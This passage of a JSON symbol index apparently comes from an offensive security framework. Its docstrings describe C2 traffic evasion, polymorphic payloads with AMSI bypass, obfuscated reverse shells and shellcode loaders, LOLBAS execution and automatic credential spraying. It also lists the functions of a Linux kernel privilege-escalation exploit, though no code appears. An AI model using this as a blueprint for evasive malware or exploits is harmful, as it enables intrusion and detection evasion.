query.\n\nReturns the result JSON dict on success, None on failure.", "kind": "function", "line": 332, "name": "run_estorides_run", "signature": "def run_estorides_run(query, out_json, timeout)"}, {"doc": "Read entities from the estorides case store (SQLite).", "kind": "class", "line": 385, "name": "EstoridesCaseReader", "signature": "class EstoridesCaseReader"}, {"doc": "Parse STIX 2.1 bundles produced by estorides.", "kind": "class", "line": 495, "name": "EstoridesStixParser", "signature": "class EstoridesStixParser"}, {"doc": "Locate LAN bundle deliverables. Never raises.", "kind": "function", "line": 586, "name": "find_lan_bundle_files", "signature": "def find_lan_bundle_files(lan_dir, sessions_dir)"}, {"doc": "Read Estorides LAN output deliverables into entities.\n\nConsumes ``lan_inventory.json`` (preferred, device-grounded),\n``lan_lazyown.json`` / ``lan_graph.json`` (graph vocabulary), and\n``lan_stix.json`` (STIX bundle). Output feeds the same import path\nas OSINT entities so LAN hosts flow into the DB, scope, intel\ngraph, attack graph, and auto_loop queue.", "kind": "class", "line": 622, "name": "LanBundleReader", "signature": "class LanBundleReader"}, {"doc": "Ensure sessions/ directories exist.", "kind": "function", "line": 694, "name": "ensure_directories", "signature": "def ensure_directories()"}, {"doc": "Import estorides-discovered entities into LazyOwn's database and scope.", "kind": "class", "line": 700, "name": "EstoridesToLazyOwnBridge", "signature": "class EstoridesToLazyOwnBridge"}, {"doc": "Orchestrate the bidirectional estorides <-> LazyOwn feedback cycle.\n\nEach iteration:\n  1. Extract seeds from LazyOwn (world model, scope, DB, hosts files)\n  2. Feed each seed into estorides discover for passive OSINT\n  3. Parse estorides output (cases + STIX)\n  4. Import new entities back into LazyOwn DB + scope\n  5. New entities become seeds for the next iteration", "kind": "class", "line": 881, "name": "FeedbackLoop", "signature": "class FeedbackLoop"}, {"doc": "Export the combined (Estorides + LazyOwn) graph as GraphML.", "kind": "function", "line": 1027, "name": "export_combined_graph", "signature": "def export_combined_graph(output_path)"}, {"kind": "method", "line": 110, "name": "success", "signature": "def success(self)"}, {"kind": "method", "line": 113, "name": "to_dict", "signature": "def to_dict(self)"}, {"kind": "method", "line": 139, "name": "new_assets", "signature": "def new_assets(self)"}, {"kind": "method", "line": 388, "name": "__init__", "signature": "def __init__(self, db_path)"}, {"kind": "method", "line": 393, "name": "available", "signature": "def available(self)"}, {"kind": "method", "line": 396, "name": "_ensure_conn", "signature": "def _ensure_conn(self)"}, {"kind": "method", "line": 402, "name": "list_cases", "signature": "def list_cases(self, limit)"}, {"doc": "Fetch entities from the case store.\n\nIf case_id is None, fetches from all cases.", "kind": "method", "line": 414, "name": "get_entities", "signature": "def get_entities(self, case_id, entity_types, limit)"}, {"doc": "Get entities of host-related types (ipv4, ipv6, domain, url, asn).", "kind": "method", "line": 469, "name": "get_host_entities", "signature": "def get_host_entities(self, case_id)"}, {"kind": "method", "line": 473, "name": "get_all_entities", "signature": "def get_all_entities(self, case_id)"}, {"kind": "method", "line": 476, "name": "stats", "signature": "def stats(self)"}, {"kind": "method", "line": 489, "name": "close", "signature": "def close(self)"}, {"kind": "method", "line": 511, "name": "__init__", "signature": "def __init__(self, stix_path)"}, {"kind": "method", "line": 515, "name": "available", "signature": "def available(self)"}, {"doc": "Parse a STIX 2.1 bundle into EstoridesEntity objects.", "kind": "method", "line": 518, "name": "parse", "signature": "def parse(self)"}, {"doc": "Parse STIX and group values by entity type.", "kind": "method", "line": 552, "name": "parse_by_type", "signature": "def parse_by_type(self, entity_types)"}, {"kind": "method", "line": 563, "name": "_extract_value", "signature": "def _extract_value(obj, stix_type)"}, {"kind": "method", "line": 632, "name": "__init__", "signature": "def __init__(self, lan_dir)"}, {"kind": "method", "line": 636, "name": "available", "signature": "def available(self)"}, {"doc": "Return raw device dicts from the inventory file.", "kind": "method", "line": 639, "name": "read_devices", "signature": "def read_devices(self)"}, {"doc": "Parse LAN devices into entities (host, mac, domain).", "kind": "method", "line": 652, "name": "parse", "signature": "def parse(self)"}, {"doc": "IPs actionable for the attack graph and auto_loop queue.", "kind": "method", "line": 683, "name": "attack_targets", "signature": "def attack_targets(self)"}, {"kind": "method", "line": 703, "name": "__init__", "signature": "def __init__(self, db_path, config_path)"}, {"doc": "Import entities into LazyOwn DB and optionally scope.\n\nArgs:\n    entities: Entities to import.\n    add_to_scope: If True, add new IPs/domains to payload.json scope.\n    add_to_db: If True, add entities to lazyown.db hosts table.\n\nReturns:\n    ImportResult with counts.", "kind": "method", "line": 711, "name": "import_entities", "signature": "def import_entities(self, entities, add_to_scope, add_to_db)"}, {"kind": "method", "line": 755, "name": "_import_to_db", "signature": "def _import_to_db(self, imports, result)"}, {"kind": "method", "line": 801, "name": "_import_to_scope", "signature": "def _import_to_scope(self, imports, result)"}, {"doc": "Get the combined attack surface from LazyOwn DB + scope.", "kind": "method", "line": 834, "name": "get_combined_surface", "signature": "def get_combined_surface(self)"}, {"kind": "method", "line": 892, "name": "__init__", "signature": "def __init__(self, max_iterations, max_depth, max_steps, timeout)"}, {"doc": "Run the feedback loop.\n\nArgs:\n    seed_methods: Which sources to extract seeds from.\n        Options: 'world_model', 'hosts_file', 'db', 'scope', 'all'.\n        Default: ['world_model', 'hosts_file']\n\nReturns:\n    Dict with iteration summaries and final surface state.", "kind": "method", "line": 908, "name": "run", "signature": "def run(self, seed_methods)"}, {"doc": "Gather seeds from specified sources, filtering already-seen.", "kind": "method", "line": 1001, "name": "_gather_seeds", "signature": "def _gather_seeds(self, methods, seen)"}]}, {"doc": "Advanced Evasion Engine for LazyOwn C2 operations.  Provides dynamic C2 profile generation, traffic morphing, JA3/JA4 fingerprint randomization, domain fronting, and certificate rotation.  All profile data is derived from payload.json configuration or generated cryptographically at runtime — no hardcoded values.", "id": "modules/evasion_engine.py", "kind": "module", "label": "evasion_engine.py", "language": "py", "sha256": "a402b57cbe86b0e9", "symbol_count": 24, "symbols": [{"kind": "class", "line": 25, "name": "TrafficMorphConfig", "signature": "class TrafficMorphConfig"}, {"kind": "class", "line": 37, "name": "MalleableProfile", "signature": "class MalleableProfile"}, {"doc": "Generates and manages dynamic C2 evasion profiles.\n\nAttributes:\n    config: Reference to the active payload.json configuration.\n    sessions_dir: Directory for persisting evasion profiles.", "kind": "class", "line": 52, "name": "EvasionEngine", "signature": "class EvasionEngine"}, {"kind": "method", "line": 130, "name": "__init__", "signature": "def __init__(self, config)"}, {"kind": "method", "line": 136, "name": "set_config", "signature": "def set_config(self, config)"}, {"kind": "method", "line": 139, "name": "_random_chrome_version", "signature": "def _random_chrome_version(self)"}, {"kind": "method", "line": 142, "name": "_random_firefox_version", "signature": "def _random_firefox_version(self)"}, {"kind": "method", "line": 145, "name": "_random_safari_version", "signature": "def _random_safari_version(self)"}, {"kind": "method", "line": 148, "name": "_generate_ja4_hash", "signature": "def _generate_ja4_hash(self)"}, {"kind": "method", "line": 162, "name": "_generate_user_agent", "signature": "def _generate_user_agent(self, os_family)"}, {"kind": "method", "line": 180, "name": "_generate_headers", "signature": "def _generate_headers(self, user_agent)"}, {"kind": "method", "line": 209, "name": "_pick_uri_pool", "signature": "def _pick_uri_pool(self)"}, {"kind": "method", "line": 217, "name": "_generate_cert_fingerprint", "signature": "def _generate_cert_fingerprint(self)"}, {"kind": "method", "line": 220, "name": "_compute_jitter", "signature": "def _compute_jitter(self)"}, {"kind": "method", "line": 224, "name": "_compute_sleep", "signature": "def _compute_sleep(self)"}, {"kind": "method", "line": 232, "name": "_get_domain_front", "signature": "def _get_domain_front(self)"}, {"kind": "method", "line": 244, "name": "generate_profile", "signature": "def generate_profile(self, os_family)"}, {"kind": "method", "line": 264, "name": "rotate_profile", "signature": "def rotate_profile(self, os_family)"}, {"kind": "method", "line": 269, "name": "get_active_profile", "signature": "def get_active_profile(self)"}, {"kind": "method", "line": 272, "name": "get_beacon_config", "signature": "def get_beacon_config(self)"}, {"kind": "method", "line": 287, "name": "morph_traffic", "signature": "def morph_traffic(self, config)"}, {"kind": "method", "line": 311, "name": "_persist_profile", "signature": "def _persist_profile(self, profile)"}, {"kind": "method", "line": 328, "name": "get_history", "signature": "def get_history(self)"}, {"kind": "method", "line": 343, "name": "profile_to_json", "signature": "def profile_to_json(self, profile)"}]}, {"doc": "Advanced evasive payload generation with multiple obfuscation strategies.  Provides polymorphic payload generation that mutates on each invocation, making signature-based detection ineffective. Supports PowerShell AMSI bypass, JavaScript obfuscation, shellcode encoding chains, process injection variants, and LOLBAS execution paths.", "id": "modules/evasive_payloads.py", "kind": "module", "label": "evasive_payloads.py", "language": "py", "sha256": "1e03bceb33532a66", "symbol_count": 16, "symbols": [{"doc": "Generates detection-evading payloads with configurable obfuscation layers.", "kind": "class", "line": 18, "name": "EvasivePayloadGenerator", "signature": "class EvasivePayloadGenerator"}, {"kind": "method", "line": 84, "name": "__init__", "signature": "def __init__(self)"}, {"doc": "Generate a random valid variable name.", "kind": "method", "line": 87, "name": "_random_var", "signature": "def _random_var(self, length)"}, {"doc": "Generate a random ASCII string for junk data.", "kind": "method", "line": 93, "name": "_random_string", "signature": "def _random_string(self, length)"}, {"doc": "XOR encode bytes with a single-byte key.", "kind": "method", "line": 97, "name": "_xor_encode", "signature": "def _xor_encode(self, data, key)"}, {"doc": "Apply ROT13 substitution cipher.", "kind": "method", "line": 102, "name": "_rot13", "signature": "def _rot13(self, data)"}, {"doc": "Compress data using zlib with gzip header.", "kind": "method", "line": 114, "name": "_gzip_compress", "signature": "def _gzip_compress(self, data)"}, {"doc": "Apply a chain of encoding transformations.\n\nReturns the final encoded bytes and metadata for decoder generation.", "kind": "method", "line": 118, "name": "_apply_encoding_chain", "signature": "def _apply_encoding_chain(self, data, chain)"}, {"doc": "Generate an obfuscated PowerShell payload.\n\nArgs:\n    payload: The raw PowerShell command to obfuscate.\n    obfuscation_level: 1=minimal, 2=moderate, 3=heavy.\n\nReturns:\n    A heavily obfuscated PowerShell one-liner.", "kind": "method", "line": 138, "name": "generate_powershell_obfuscated", "signature": "def generate_powershell_obfuscated(self, payload, obfuscation_level)"}, {"doc": "Generate an obfuscated JavaScript payload.\n\nArgs:\n    payload: Raw JavaScript to obfuscate.\n\nReturns:\n    Obfuscated JavaScript using eval with char code reconstruction.", "kind": "method", "line": 178, "name": "generate_javascript_obfuscated", "signature": "def generate_javascript_obfuscated(self, payload)"}, {"doc": "Generate an obfuscated VBA macro payload.\n\nArgs:\n    payload: Raw VBA code to obfuscate.\n\nReturns:\n    Obfuscated VBA using Chr() function reconstruction.", "kind": "method", "line": 197, "name": "generate_vba_obfuscated", "signature": "def generate_vba_obfuscated(self, payload)"}, {"doc": "Generate an evasive Linux reverse shell payload.\n\nArgs:\n    rhost: Remote host IP.\n    rport: Remote port.\n    technique: Shell type (python, bash, or node).\n\nReturns:\n    Base64-encoded evasive payload ready for execution.", "kind": "method", "line": 214, "name": "generate_linux_evasive", "signature": "def generate_linux_evasive(self, rhost, rport, technique)"}, {"doc": "Generate a PowerShell shellcode loader with AMSI bypass.\n\nArgs:\n    shellcode_b64: Base64-encoded shellcode.\n    injection_technique: Process injection technique to embed.\n\nReturns:\n    Complete obfuscated PowerShell loader.", "kind": "method", "line": 239, "name": "generate_shellcode_loader_powershell", "signature": "def generate_shellcode_loader_powershell(self, shellcode_b64, injection_technique)"}, {"doc": "Generate a LOLBAS-based payload execution command.\n\nUses legitimate Windows binaries for execution to bypass\napplication allowlisting.\n\nArgs:\n    payload_url: URL hosting the payload.\n    technique: LOLBAS binary to use.\n\nReturns:\n    Tuple of (command, description).", "kind": "method", "line": 284, "name": "generate_lolbas_execution", "signature": "def generate_lolbas_execution(self, payload_url, technique)"}, {"doc": "Generate a polymorphic command that mutates at each execution.\n\nInserts random no-op commands, variable renames, and padding\nto defeat signature-based detection.\n\nArgs:\n    base_cmd: The base command to obfuscate.\n    iterations: Number of obfuscation passes.\n\nReturns:\n    A polymorphic command that produces the same effect.", "kind": "method", "line": 334, "name": "generate_polymorphic_command", "signature": "def generate_polymorphic_command(self, base_cmd, iterations)"}, {"doc": "Return all available evasion techniques.", "kind": "method", "line": 374, "name": "list_techniques", "signature": "def list_techniques(self)"}]}, {"doc": "UnifiedEventBus — central nervous system connecting all LazyOwn components.  Replaces the fragmented event systems (collab_bp.EventBus, engagement_hooks, event_engine) with a single typed pub/sub bus that CLI, C2, MCP, autonomous agents, and bridges all share.  Design (SOLID) -------------- - Single Responsibility : UnifiedEventBus owns only event routing + persistence. - Open/Closed           : new event types/categories added without modifying bus. - Liskov                : all subscribers honour Callable[[LazyEvent], None]. - Interface Segregation : subscribe/unsubscribe/publish are the only surface. - Dependency Inversion  : bus depends on abstract Sink, not concrete backends.  Thread-safe. Async-compatible. Worker-based dispatch with backpressure via a bounded queue. Persists to sessions/events.jsonl.", "id": "modules/event_bus.py", "kind": "module", "label": "event_bus.py", "language": "py", "sha256": "ec88e7c38c3b8d17", "symbol_count": 41, "symbols": [{"kind": "class", "line": 47, "name": "EventCategory", "signature": "class EventCategory(str, Enum)"}, {"kind": "class", "line": 73, "name": "EventSeverity", "signature": "class EventSeverity(str, Enum)"}, {"doc": "Universal event envelope for all LazyOwn components.", "kind": "class", "line": 82, "name": "LazyEvent", "signature": "class LazyEvent"}, {"doc": "Abstract sink for persisting or forwarding events.", "kind": "class", "line": 133, "name": "Sink", "signature": "class Sink(ABC)"}, {"doc": "Persists events to sessions/events.jsonl (append-only).", "kind": "class", "line": 143, "name": "JsonlSink", "signature": "class JsonlSink(Sink)"}, {"doc": "Forwards LazyEvents to the existing collab_bp.EventBus for SSE streaming.", "kind": "class", "line": 163, "name": "CollabBusSink", "signature": "class CollabBusSink(Sink)"}, {"doc": "Forwards LazyEvents to the engagement_hooks narrator.", "kind": "class", "line": 202, "name": "EngagementSink", "signature": "class EngagementSink(Sink)"}, {"doc": "Central event bus for all LazyOwn components.\n\nEvents are queued on a bounded ``queue.Queue`` (backpressure) and\ndispatched by a dedicated worker thread. This decouples publish()\nlatency from subscriber execution speed and provides natural\nbackpressure when subscribers fall behind.\n\nUsage::\n\n    bus = get_event_bus()\n    bus.subscribe(\"my_module\", lambda ev: print(ev.event_type))\n    bus.publish(LazyEvent(\n        category=EventCategory.RECON,\n        event_type=\"scan_complete\",\n        source=\"lazynmap\",\n        payload={\"host\": \"10.0.0.1\", \"ports\": [22, 80, 445]},\n    ))", "kind": "class", "line": 230, "name": "UnifiedEventBus", "signature": "class UnifiedEventBus"}, {"doc": "Return the singleton UnifiedEventBus instance.", "kind": "function", "line": 570, "name": "get_event_bus", "signature": "def get_event_bus()"}, {"doc": "Convenience function to build and publish an event in one call.", "kind": "function", "line": 575, "name": "publish_event", "signature": "def publish_event(category, event_type, source, payload, severity, target, operator)"}, {"kind": "method", "line": 96, "name": "to_dict", "signature": "def to_dict(self)"}, {"kind": "method", "line": 111, "name": "to_json", "signature": "def to_json(self)"}, {"kind": "method", "line": 115, "name": "from_dict", "signature": "def from_dict(cls, d)"}, {"kind": "method", "line": 137, "name": "write", "signature": "def write(self, event)"}, {"kind": "method", "line": 140, "name": "close", "signature": "def close(self)"}, {"kind": "method", "line": 146, "name": "__init__", "signature": "def __init__(self, filepath)"}, {"kind": "method", "line": 151, "name": "write", "signature": "def write(self, event)"}, {"kind": "method", "line": 159, "name": "close", "signature": "def close(self)"}, {"kind": "method", "line": 166, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 170, "name": "_bus", "signature": "def _bus(self)"}, {"kind": "method", "line": 181, "name": "write", "signature": "def write(self, event)"}, {"kind": "method", "line": 198, "name": "close", "signature": "def close(self)"}, {"kind": "method", "line": 205, "name": "write", "signature": "def write(self, event)"}, {"kind": "method", "line": 226, "name": "close", "signature": "def close(self)"}, {"kind": "method", "line": 255, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 273, "name": "_init_sinks", "signature": "def _init_sinks(self)"}, {"kind": "method", "line": 287, "name": "instance", "signature": "def instance(cls)"}, {"doc": "Return the number of active subscribers across all registration types.", "kind": "method", "line": 295, "name": "subscriber_count", "signature": "def subscriber_count(self)"}, {"doc": "Register a callback for all events.", "kind": "method", "line": 300, "name": "subscribe", "signature": "def subscribe(self, subscriber_id, callback)"}, {"doc": "Register a callback for events matching a topic.\n\nTopics are dotted strings like 'recon.nmap' or 'beacon.*'.\nWildcards: '*' matches any single segment, '**' matches everything.", "kind": "method", "line": 305, "name": "subscribe_topic", "signature": "def subscribe_topic(self, subscriber_id, topic, callback)"}, {"doc": "Get a Queue for async event consumption (for SSE, WebSocket, etc.).", "kind": "method", "line": 315, "name": "subscribe_async", "signature": "def subscribe_async(self, subscriber_id)"}, {"doc": "Remove all subscriptions for a subscriber.", "kind": "method", "line": 327, "name": "unsubscribe", "signature": "def unsubscribe(self, subscriber_id)"}, {"doc": "Publish an event via the bounded dispatch queue.\n\nAppends to history immediately. The event is then placed on the\ninternal dispatch queue for worker-thread delivery to subscribers\nand sinks.  When the queue is full this call blocks, providing\nnatural backpressure.\n\nArgs:\n    event: The event to publish.", "kind": "method", "line": 336, "name": "publish", "signature": "def publish(self, event)"}, {"doc": "Consume and drop all pending events from the dispatch queue.\n\nAlready-delivered events that were dispatched before the drain\ncall are not affected.  History is preserved so post-drain\nqueries can still see what was published.", "kind": "method", "line": 354, "name": "drain", "signature": "def drain(self)"}, {"doc": "Shut down the event bus cleanly.\n\n1. Marks the bus as stopped.\n2. Sends a shutdown sentinel through the dispatch queue so the\n   worker thread can notify all subscribers and exit.\n3. Joins the worker thread (with a timeout).\n4. Closes all sinks and clears subscriber registrations.\n\nThread-safe. Idempotent.", "kind": "method", "line": 372, "name": "shutdown", "signature": "def shutdown(self)"}, {"doc": "Worker loop consuming events from ``_dispatch_queue``.\n\nProcesses events one at a time, delivering to all subscribers,\ntopic subscribers, async queues, and sinks. Stops when the\nshutdown sentinel is received or ``_running`` becomes ``False``.", "kind": "method", "line": 416, "name": "_dispatch_loop", "signature": "def _dispatch_loop(self)"}, {"doc": "Deliver a single event to every registered consumer.", "kind": "method", "line": 441, "name": "_dispatch_event", "signature": "def _dispatch_event(self, event)"}, {"doc": "Notify all subscribers that the bus is shutting down.", "kind": "method", "line": 479, "name": "_notify_shutdown", "signature": "def _notify_shutdown(self)"}, {"doc": "Match a dotted topic pattern against an event.\n\nThe event's topic is '{category.value}.{event_type}'.\nSupports '*' (single segment) and '**' (any depth) wildcards.", "kind": "method", "line": 517, "name": "_match_topic", "signature": "def _match_topic(self, topic, event)"}, {"doc": "Return recent events, optionally filtered by category.", "kind": "method", "line": 556, "name": "history", "signature": "def history(self, n, category)"}, {"doc": "Return all events since a given timestamp.", "kind": "method", "line": 564, "name": "history_since", "signature": "def history_since(self, since_ts)"}]}, {"doc": "Event Consumers — reactive layer that makes EventBus events drive real actions.  These subscribers turn the EventBus from a passive log into an active nervous system. Each consumer listens for specific event patterns and triggers concrete framework actions without any component needing to know about others.  Consumers: - PhaseTracker      : advances host states, updates world_model.json on scan/enum events - AutoRecommender   : injects \"recommend next\" objectives after scans complete - CredentialReactor : auto-triggers credential spraying when creds are found - SoulSync          : keeps sessions/soul.md in sync with campaign phase/state - DashboardPusher   : pushes events to collab_bus SSE + session_state.json  All consumers are self-registering — call ``wire_all_consumers()`` once at boot.", "id": "modules/event_consumers.py", "kind": "module", "label": "event_consumers.py", "language": "py", "sha256": "ca3319b22c0972ad", "symbol_count": 18, "symbols": [{"kind": "function", "line": 43, "name": "_load_payload", "signature": "def _load_payload()"}, {"doc": "Append an objective to objectives.jsonl.", "kind": "function", "line": 54, "name": "_inject_objective", "signature": "def _inject_objective(text, priority, source)"}, {"doc": "Update or create a host entry in world_model.json.", "kind": "function", "line": 72, "name": "_update_world_model_host", "signature": "def _update_world_model_host(address, state, services)"}, {"doc": "Update sections of sessions/soul.md.", "kind": "function", "line": 110, "name": "_update_soul", "signature": "def _update_soul(phase, credentials, access)"}, {"doc": "Advances host states and updates world_model.json based on scan/enum events.\n\nState machine:\n    command like lazynmap   → host state \"scanned\"\n    service_added            → host state \"enumerated\" (if services present)\n    vulnerability_added      → host state \"exploited\" (if vulns present)\n    credential_added         → host state \"owned\"", "kind": "class", "line": 146, "name": "PhaseTracker", "signature": "class PhaseTracker"}, {"doc": "Injects objectives when significant events happen (scan done, vuln found, etc.).", "kind": "class", "line": 201, "name": "AutoRecommender", "signature": "class AutoRecommender"}, {"doc": "Detects credential patterns in command output and auto-captures them.", "kind": "class", "line": 272, "name": "CredentialReactor", "signature": "class CredentialReactor"}, {"doc": "Keeps sessions/soul.md in sync with campaign state from events.", "kind": "class", "line": 320, "name": "SoulSync", "signature": "class SoulSync"}, {"doc": "Refreshes session_state.json and pushes to collab_bus on every event.", "kind": "class", "line": 358, "name": "DashboardPusher", "signature": "class DashboardPusher"}, {"doc": "Register all event consumers on the UnifiedEventBus.\n\nArgs:\n    bus: Optional UnifiedEventBus instance. Uses singleton if None.\n\nReturns:\n    Number of consumers registered.", "kind": "function", "line": 380, "name": "wire_all_consumers", "signature": "def wire_all_consumers(bus)"}, {"doc": "Remove all event consumers from the bus.", "kind": "function", "line": 409, "name": "unwire_all_consumers", "signature": "def unwire_all_consumers(bus)"}, {"kind": "method", "line": 156, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 159, "name": "__call__", "signature": "def __call__(self, event)"}, {"kind": "method", "line": 204, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 207, "name": "__call__", "signature": "def __call__(self, event)"}, {"kind": "method", "line": 282, "name": "__call__", "signature": "def __call__(self, event)"}, {"kind": "method", "line": 323, "name": "__call__", "signature": "def __call__(self, event)"}, {"kind": "method", "line": 361, "name": "__call__", "signature": "def __call__(self, event)"}]}, {"doc": "LazyOwn Event Engine ==================== Tails sessions/LazyOwn_session_report.csv for new command executions, matches them against rules in sessions/event_rules.json, and appends structured events to sessions/events.jsonl for Claude (MCP) to consume.  Designed to run as a lightweight background loop (see skills/heartbeat.py).", "id": "modules/event_engine.py", "kind": "module", "label": "event_engine.py", "language": "py", "sha256": "20301b13198aff0b", "symbol_count": 10, "symbols": [{"doc": "Load rules from event_rules.json, creating it with defaults if missing.", "kind": "function", "line": 99, "name": "load_rules", "signature": "def load_rules()"}, {"kind": "function", "line": 110, "name": "save_rules", "signature": "def save_rules(rules)"}, {"doc": "Add or replace a rule by id. Returns 'added' or 'updated'.", "kind": "function", "line": 114, "name": "add_rule", "signature": "def add_rule(rule)"}, {"kind": "function", "line": 130, "name": "_read_watermark", "signature": "def _read_watermark()"}, {"kind": "function", "line": 137, "name": "_write_watermark", "signature": "def _write_watermark(offset)"}, {"kind": "function", "line": 144, "name": "_row_matches", "signature": "def _row_matches(row, trigger)"}, {"kind": "function", "line": 173, "name": "_append_event", "signature": "def _append_event(event)"}, {"doc": "Read new rows from the session CSV since last watermark.\nMatch against rules and emit events to events.jsonl.\nReturns the number of events emitted.", "kind": "function", "line": 181, "name": "process_new_rows", "signature": "def process_new_rows()"}, {"doc": "Return up to `limit` events matching `status` (pending/processed/all).", "kind": "function", "line": 250, "name": "read_events", "signature": "def read_events(limit, status)"}, {"doc": "Mark an event as processed. Returns True if found.", "kind": "function", "line": 270, "name": "ack_event", "signature": "def ack_event(event_id)"}]}, {"doc": "Content-addressed evidence vault independent of disposable traffic.  Ports the LAZY ``evidence`` subsystem: finding evidence is hashed with SHA-256, written atomically via a staging directory, verified on read, and garbage-collected when unreferenced past a grace period.", "id": "modules/evidence.py", "kind": "module", "label": "evidence.py", "language": "py", "sha256": "2e9cb31b10eab8e5", "symbol_count": 10, "symbols": [{"doc": "Centralized constants for vault behavior.", "kind": "class", "line": 20, "name": "EvidenceConfig", "signature": "class EvidenceConfig"}, {"doc": "Return the lowercase hex SHA-256 of data.", "kind": "function", "line": 37, "name": "hash_bytes", "signature": "def hash_bytes(data)"}, {"doc": "Validate a SHA-256 hex digest and return it normalized.", "kind": "function", "line": 42, "name": "_validate_hash", "signature": "def _validate_hash(value)"}, {"doc": "Durable content-addressed blob store for finding evidence.", "kind": "class", "line": 54, "name": "EvidenceStore", "signature": "class EvidenceStore"}, {"doc": "Create vault directories.", "kind": "method", "line": 57, "name": "__init__", "signature": "def __init__(self, base_dir)"}, {"doc": "Resolve the canonical path for a validated hash.", "kind": "method", "line": 65, "name": "blob_path", "signature": "def blob_path(self, content_hash)"}, {"doc": "Atomically store bytes and return their SHA-256 hash.", "kind": "method", "line": 70, "name": "put", "signature": "def put(self, data)"}, {"doc": "Read and verify blob bytes for a hash.", "kind": "method", "line": 90, "name": "get", "signature": "def get(self, content_hash)"}, {"doc": "Return True when the blob exists on disk.", "kind": "method", "line": 98, "name": "exists", "signature": "def exists(self, content_hash)"}, {"doc": "Remove unreferenced blobs older than the grace period.", "kind": "method", "line": 105, "name": "garbage_collect", "signature": "def garbage_collect(self, referenced)"}]}, {"id": "modules/evilhttprev.sh", "kind": "module", "label": "evilhttprev.sh", "language": "sh", "sha256": "8a04016b2874ce3e", "symbol_count": 0, "symbols": []}, {"doc": "gcc exp.c -o exp -l mnl -l nftnl -w", "id": "modules/exp.c", "kind": "module", "label": "exp.c", "language": "c", "sha256": "73cf04bfc9a4d852", "symbol_count": 58, "symbols": [{"kind": "struct", "line": 120, "name": "keyring_payload"}, {"kind": "struct", "line": 126, "name": "leak"}, {"kind": "struct", "line": 131, "name": "fd_uring"}, {"kind": "struct", "line": 84, "name": "msg"}, {"kind": "struct", "line": 90, "name": "msg_header"}, {"kind": "struct", "line": 100, "name": "Msg"}, {"kind": "struct", "line": 105, "name": "user_rule_t"}, {"kind": "enum", "line": 77, "name": "nft_trans_phase"}, {"kind": "type_alias", "line": 135, "name": "key_serial_t", "signature": "typedef int32_t key_serial_t;"}, {"kind": "function", "line": 147, "name": "add_key", "signature": "static inline key_serial_t add_key(const char *type, const char *description, const void *payload..."}, {"kind": "function", "line": 151, "name": "keyctl", "signature": "static inline long keyctl(int operation, unsigned long arg2, unsigned long arg3, unsigned long ar..."}, {"kind": "function", "line": 155, "name": "bye", "signature": "void bye(char *info)"}, {"kind": "function", "line": 161, "name": "do_error_exit", "signature": "void do_error_exit(char *info)"}, {"kind": "function", "line": 167, "name": "bye2", "signature": "void bye2(char *info, char *arg)"}, {"kind": "function", "line": 172, "name": "spray_keyring", "signature": "key_serial_t *spray_keyring(uint32_t start, uint32_t spray_size)"}, {"kind": "function", "line": 190, "name": "spray_keyring_list_del_purpose", "signature": "key_serial_t *spray_keyring_list_del_purpose(uint32_t spray_size, uint64_t next, uint64_t prev, u..."}, {"kind": "function", "line": 214, "name": "spray_keyring_list_overwrite_purpose", "signature": "key_serial_t *spray_keyring_list_overwrite_purpose(uint32_t spray_size, uint64_t len, uint64_t of..."}, {"kind": "function", "line": 248, "name": "get_keyring_leak", "signature": "int get_keyring_leak(key_serial_t *id_buffer, uint32_t id_buffer_size)"}, {"kind": "function", "line": 271, "name": "awake_partial_keys", "signature": "void awake_partial_keys(key_serial_t *id_buffer, uint32_t idx)"}, {"kind": "function", "line": 279, "name": "release_keys", "signature": "void release_keys(key_serial_t *id_buffer, uint32_t id_buffer_size)"}, {"kind": "function", "line": 290, "name": "release_partial_keys", "signature": "void release_partial_keys(key_serial_t *id_buffer, int i)"}, {"kind": "function", "line": 297, "name": "unshare_setup", "signature": "void unshare_setup(uid_t uid, gid_t gid)"}, {"kind": "function", "line": 322, "name": "set_stable_table_and_set", "signature": "void set_stable_table_and_set(struct mnl_socket* nl, const char *name)"}, {"kind": "function", "line": 385, "name": "set_trigger_set_and_overwrite", "signature": "void set_trigger_set_and_overwrite(struct mnl_socket* nl, const char *name, const char *set_name)"}, {"kind": "function", "line": 438, "name": "set_cpu_affinity", "signature": "void set_cpu_affinity(int cpu_n, pid_t pid)"}, {"kind": "function", "line": 448, "name": "spray_mqueue", "signature": "void spray_mqueue(mqd_t mqdes, char *msgptr, int spray_size)"}, {"kind": "function", "line": 463, "name": "gather_mqueue", "signature": "int gather_mqueue(mqd_t mqdes, int gather_size)"}, {"kind": "function", "line": 485, "name": "gather_mqueue_nosave", "signature": "int gather_mqueue_nosave(mqd_t mqdes, int gather_size)"}, {"kind": "function", "line": 496, "name": "spray_msg_msg", "signature": "void spray_msg_msg(unsigned int size, unsigned int amount, int qid)"}, {"kind": "function", "line": 520, "name": "io_uring_setup", "signature": "static inline int io_uring_setup(uint32_t entries, struct io_uring_params *p)"}, {"kind": "function", "line": 524, "name": "io_uring_register", "signature": "static inline int io_uring_register(int fd, unsigned int opcode, void *arg, unsigned int nr_args)"}, {"kind": "function", "line": 529, "name": "spray_uring", "signature": "struct fd_uring *spray_uring(uint32_t spray_size, struct fd_uring *fd_buffer)"}, {"kind": "function", "line": 546, "name": "release_uring", "signature": "void release_uring(struct fd_uring *fd_buffer, uint32_t buffer_size)"}, {"kind": "function", "line": 554, "name": "release_partial_uring", "signature": "void release_partial_uring(struct fd_uring *fd_buffer, uint32_t buffer_idx)"}, {"kind": "function", "line": 559, "name": "prepare_root_shell", "signature": "void prepare_root_shell(void)"}, {"kind": "function", "line": 564, "name": "create_dummy_file", "signature": "void create_dummy_file(void)"}, {"kind": "function", "line": 572, "name": "create_priv_file", "signature": "void create_priv_file(void)"}, {"kind": "function", "line": 582, "name": "write_new_modprobe", "signature": "void write_new_modprobe()"}, {"kind": "function", "line": 601, "name": "setup_modprobe_payload", "signature": "void setup_modprobe_payload()"}, {"kind": "function", "line": 605, "name": "userland_T", "signature": "void userland_T(int *sema)"}, {"kind": "function", "line": 610, "name": "sema_up", "signature": "void sema_up(int *sema)"}, {"kind": "function", "line": 615, "name": "sema_down", "signature": "void sema_down(int *sema)"}, {"kind": "function", "line": 620, "name": "main", "signature": "int main(int argc, char ** argv)"}, {"kind": "macro", "line": 2, "name": "_GNU_SOURCE", "signature": "#define _GNU_SOURCE"}, {"kind": 